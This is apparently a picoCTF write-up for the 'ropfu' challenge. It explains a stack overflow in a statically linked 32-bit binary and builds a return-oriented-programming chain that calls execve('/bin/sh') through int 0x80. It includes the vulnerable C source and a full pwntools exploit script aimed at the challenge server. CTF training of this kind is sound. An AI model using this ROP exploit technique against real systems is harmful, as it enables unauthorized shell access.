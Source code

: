 # ropfu

Challenge Description:

> What's ROP?

> Can you exploit the following program to get the flag?

> Hint1 : This is a classic ROP to get a shell

## Analyzing code

We see that it is a 32 bit executable which is statically linked and not stripped.
This means that the required functions which the program needs are inserted into the executable during compilation itself and they do not need to be linked from other libraries like LIBC etc.

`vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=3aa2bb6a5bf44d90a355da83fa909bbf5d9d90ce, for GNU/Linux 3.2.0, not stripped`

Checksec says that there is a canary present in the binary but this turned out to be a false positive because there was seg faults and there were no stack smashing errors when we overflowed the buffer.

    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

This time,we do not have any win function present in the binary,so we have to use return oriented programming to try spawning a shell as given in the description.We cannot use Ret2Libc because libc itself is not linked to the binary and the function addresses are anyway known to us.

```c
void vuln() {
  char buf[16];
  printf("How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!\n");
  return gets(buf);

}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  
}
```

## Creating a Exploit script

ROP involves using gadgets to continue executing code of the user's choice.These gadgets can be found using `ROPgadget`.
[ROPgadget github link](https://github.com/JonathanSalwan/ROPgadget)

Attack methodology:

1. Write the string `/bin/sh` into the bss section of the binary as it is generally allowed to be written to.Gets() can be used to read this string into the bss.

2. After writing the string into the bss,return back to the vuln function so that we can send our 2nd payload.

3. This time,we try to run `execve(ptr_to_bin_sh , 0, 0)` so that we can get a shell.We can do this by setting `EAX=11`(number for execve) and `EBX=bss_addr`(first arg for execve) and `ECX=0`(second arg for execve) and `EDX=0`(third arg for execve).

4. Finally,we call `int 0x80` which is the system call interrupt which will execute the syscall.

Finding a gadget is not very hard and one of them is shown below

![ROPgadget usage](ropgadget.PNG)

> Note: Initially,instead of `int 0x80`,i ran the syscall gadget which did not work maybe because this is a 32 bit binary.

```python
from pwn import *

def bytes2str(input):
	return str(input,"utf-8")

elf = ELF("./vuln",checksec=False)
#p = elf.process()
p = remote("saturn.picoctf.net", 62474)

gets = elf.sym['gets']
vuln = elf.sym['vuln']
bss_addr = elf.bss() + 64
pop_ecx_ret = 0x08049e39
pop_eax_edx_ebx = 0x080583c8
int_80 = 0x0804a3d2

padding = b'A'*28

payload1 = padding
payload1 += p32(gets)
payload1 += p32(vuln)
payload1 += p32(bss_addr)

p.sendline(payload1)
p.sendline(b"/bin/sh")

payload2 = padding
payload2 += p32(pop_eax_edx_ebx)
payload2 += p32(11)
payload2 += p32(0)
payload2 += p32(bss_addr)
payload2 += p32(pop_ecx_ret)
payload2 += p32(0)
payload2 += p32(int_80)

p.sendline(payload2)
p.interactive()

```

Running the script gives us the shell as shown,

![flag output](flag_output.PNG)